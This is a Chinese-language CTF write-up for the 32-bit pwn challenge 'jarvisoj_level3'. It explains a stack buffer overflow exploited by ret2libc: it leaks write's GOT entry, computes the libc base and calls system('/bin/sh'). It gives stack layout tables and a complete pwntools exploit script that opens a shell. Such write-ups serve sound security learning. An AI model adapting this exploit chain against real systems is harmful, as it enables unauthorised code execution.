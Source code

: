 ```yaml
---
title: 'jarvisoj_level3'
date: 2024-11-07 13:00:00 +0800
categories: [32bit]
tags: [ctf,pwn]
---
```

![image-20231229210336379](../assets/img/old_imgs/image-20231229210336379.png)

- 函数参数劫持

- `32`位泄露`libc`

  `32`位程序的传参是栈的后四位开始,要注意的是,`32`位下`write,put`的`ret`位置是紧跟函数后面的

  `payload1 = b'A'*(0x88+0x4)+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['write'])+p32(4)`

  > 这段代码中的p32(elf.sym['main'])就是ret,同时满足填充栈,传入参数

| rbp  |           |       |            |
| ---- | --------- | ----- | ---------- |
|      | padding   |       | 0x88       |
|      |           | leave | 0x4        |
|      | write_plt | ret   |            |
|      | main_addr | ret_l | 返回的地址 |
|      | 0x1       |       | arg1       |
|      | wirte_got |       | arg2       |
|      | 0x4       |       | arg3       |

> payload1

| rbp  |             |       |      |
| ---- | ----------- | ----- | ---- |
|      | padding     |       | 0x88 |
|      |             | leave | 0x4  |
|      | system_addr | ret   |      |
|      | 0xdeadbeef  |       |      |
|      | bin_sh_addr |       | aeg1 |

> payload2

```python
from pwn import *
#context.log_level = 'debug'
io = process('./level3')
#io = gdb.debug('./level3','break main')
elf = ELF('./level3')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
payload1 = b'A'*(0x88+0x4)+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['write'])+p32(4)
io.sendline(payload1)
io.recvuntil('Input:\n')
write_addr = u32(io.recv(4))
print('write_addr->',hex(write_addr))
baseoffset = write_addr - Lib.sym['write']
sys_addr = baseoffset + Lib.sym['system']
bin_sh_addr = baseoffset + next(Lib.search(b'/bin/sh'))
payload2 = b'A'*(0x88+0x4)+p32(sys_addr)+p32(0xdeadbeef)+p32(bin_sh_addr)
io.sendlineafter(b'Input:\n',payload2)
io.interactive()
```
